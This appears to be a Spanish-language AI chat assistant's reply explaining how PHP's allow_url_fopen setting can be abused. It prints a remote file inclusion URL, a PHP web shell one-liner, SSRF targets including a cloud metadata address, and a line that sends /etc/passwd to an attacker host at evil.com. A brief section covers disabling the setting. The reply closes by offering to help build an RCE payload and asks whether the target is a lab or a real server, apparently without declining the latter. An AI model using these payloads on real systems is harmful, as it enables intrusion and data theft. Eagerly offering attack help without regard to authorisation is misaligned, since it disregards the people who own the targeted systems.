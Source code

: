 Cuando ves que en `phpinfo()` o en la configuración de PHP está:

ini

CopiarEditar

`allow_url_fopen = On`

🔥 **Significa que PHP puede abrir URLs remotas como si fueran archivos locales**, usando funciones como `file_get_contents()`, `include()`, `require()`, `fopen()`, etc.

Esto puede ser **muy útil**… o **muy peligroso**, dependiendo del contexto 😈

---

## 🧨 ¿Qué se puede hacer si `allow_url_fopen` está habilitado?

### 1. **Incluir archivos remotos (RFI - Remote File Inclusion)**

Si encuentras una vulnerabilidad de tipo `include($_GET['page'])` y `allow_url_fopen` está **activado**, puedes cargar código malicioso desde **tu servidor externo**.

✅ Ejemplo vulnerable:

php

CopiarEditar

`<?php include($_GET['page']);  // page=http://evil.com/shell.txt`

☠️ Esto te permitiría ejecutar PHP desde una URL remota como:

bash

CopiarEditar

`http://victima.com/vuln.php?page=http://tu-ip/shell.txt`

Donde `shell.txt` contiene algo como:

php

CopiarEditar

`<?php system($_GET['cmd']); ?>`

---

### 2. **SSRF (Server-Side Request Forgery)**

Puedes hacer que el servidor haga peticiones a:

- IPs internas (`http://127.0.0.1`, `http://169.254.169.254`, etc)
    
- Otros servidores accesibles desde el backend
    
- Tu propio servidor para exfiltrar datos
    

✅ Ejemplo:

php

CopiarEditar

`file_get_contents("http://localhost:8000/admin");`

---

### 3. **Exfiltrar información (desde el servidor hacia ti)**

Si puedes controlar qué se lee con `file_get_contents()` o `include()`, puedes hacer que el servidor te envíe archivos:

php

CopiarEditar

`$content = file_get_contents("http://evil.com/steal.php?data=" . urlencode(file_get_contents("/etc/passwd")));`

---

### 4. **Carga remota de scripts o configuraciones**

En algunos CMS o scripts mal configurados, el `allow_url_fopen` puede usarse para:

- Cargar temas/plugins desde URLs externas.
    
- Autoupdates desde lugares inseguros.
    
- Inclusiones dinámicas desde `$_GET` o `$_POST`.
    

---

## 🔒 Si eres el defensor

Si no necesitas cargar archivos remotos **por ninguna razón**, **desactiva esto** en `php.ini`:

ini

CopiarEditar

`allow_url_fopen = Off`

Porque combinado con otras malas prácticas, puede ser **letal**.

---

## 🚀 ¿Y si esto está activado y además puedes controlar una ruta en `include()`?

Entonces estás a un paso de una **RCE remota (Remote Code Execution)**. Si quieres, puedo ayudarte a construir un escenario o payload para probarlo (en un entorno controlado o CTF, claro 😎).

¿Estás en un laboratorio tipo TryHackMe/HackTheBox, o revisando un servidor real?